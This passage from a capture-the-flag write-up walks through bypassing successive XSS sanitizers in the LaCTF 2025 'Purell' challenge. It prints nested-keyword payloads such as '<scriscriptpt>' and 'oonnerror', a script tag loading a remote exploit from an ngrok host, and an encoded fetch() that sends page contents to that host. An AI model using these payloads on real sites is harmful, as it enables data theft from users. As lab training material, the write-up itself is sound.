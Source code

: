 > Now, it also checks if `on` is present in the payload, and the injection is sanitized. However, with the previous payload, I was able to bypass this level as well, accessing **level 3** and obtaining the third part of the flag: `h4nd_g34m_`, along with the token (`purell-token{XSS_IS_UNSTOPPABLE_RAHHHH}`). Level 3 introduced another layer of sanitization:
> 
> ```
> Sanitizer: (html) => html.toLowerCase().replaceAll('script', '').replaceAll('on', '')
> ```
> 
> In this case, the control is applied to a string in all `lowercase`, so the previous payload cannot work because it contains uppercase characters and, most importantly, it contains `script`. In fact, as we can see, it replaces `script` and `on`, removing them from the payload being inserted. Here, I started to encounter a couple of issues, because previously I was using `document.querySelector('.flag').innerText)` to extract the token from the HTML page and send it to my web server, but now I can no longer use it because of `toLowerCase()`. In fact, the `queryselector()` or `innertext` functions do not exist, so it is impossible to extract the flag in this way. I then thought of starting a local server with Python and hosting an exploit file using Python's `http.server` + `ngrok forwarding`:
> 
> ```bash
> python -m http.server 8080
> ```
> 
> The exploit file is as follows: [:(far fa-file-archive fa-fw): Exploit](/resources/LaCTF-2025/Purell/exploit.js). By doing this, I inserted a script in the page with a `src` pointing to my web server, where I was serving the exploit. This exploit makes a request to my web server exactly as I did with the previous payloads. Why is this? To bypass the `toLowerCase()`, in fact, since the `js` file was served by me from my web server and the page pointed to it, it didn't pass through the sanitizer, and therefore I could use any character. I then used the following payload:
> 
> ```html
> <scriscriptpt src="//c0b4-2-37-167-108.ngrok-free.app/exploit.js"></scriscriptpt>
> ```
> 
> I used `<scriscriptpt>` because once the sanitizer does the `replace`, it replaces `script` with `*nothing*`, and we end up with `<script>`, successfully performing the injection. Once the injection was sent, I extracted the token (`purell-token{a_l7l_b7t_0f_m00t4t70n}`) to access the new part of the flag (`4cr0ss_411_t1m3`) and level 4. Here, another type of sanitization is applied:
> 
> ```
> (html) => html .toLowerCase().replaceAll('script', '').replaceAll('on', '') .replaceAll('>', '')
> ```
> 
> The replacement of `>` (a character that, as we know, is used to close HTML tags) is introduced here. When trying to insert `<scriscriptpt>`, the tag remained open, which prevented the execution of the JavaScript code contained within it. After a couple of tries, I was able to trigger the `alert` and successfully perform the injection with the following payload:
> 
> ```html
> <img src=x oonnerror="alert(1)"
> ```
> 
> Exploiting the same technique used earlier, which replaces `on` to make the input `onerror`. However, now problems start arising since without the `<script>` tag, I can no longer bypass the `toLowerCase()` with a script hosted on my web server, as it's not possible to include JS within an HTML `image` tag. After several attempts, I found a somewhat unusual but effective solution. I used `eval()` to execute the JavaScript, the `atob()` function to decode the `base64` payload, and finally encoded the payload from `base64` to `hex` to bypass the `toLowerCase()` control. I took the previously used payload and made these conversions with [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')To_Hex('%5C%5Cx',0)&input=ZmV0Y2goJ2h0dHBzOi8vYzBiNC0yLTM3LTE2Ny0xMDgubmdyb2stZnJlZS5hcHA/ZmxhZz0nICsgZG9jdW1lbnQucXVlcnlTZWxlY3RvcignLmZsYWcnKS5pbm5lclRleHQp):
> 